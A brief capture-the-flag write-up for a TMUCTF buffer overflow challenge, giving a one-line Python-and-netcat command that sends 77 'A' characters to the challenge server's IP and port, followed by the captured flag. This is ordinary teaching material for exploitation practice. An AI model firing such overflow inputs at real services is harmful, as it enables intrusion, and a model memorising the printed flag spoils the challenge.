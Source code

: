# Challenge Description
<p align="center">
  <img src="challenge.png">
</p>
<br>

# Writeup
This challenge was a simple overflow. You just had to give 77 or more chars as input in order to overwrite the variable inside the code and get the flag!  
```bash
python2.7 -c "print 'A'*77" | nc 194.5.207.56 7000
```   
The flag:   
```
TMUCTF{n0w_y0u_4r3_w4rm3d_up}
```
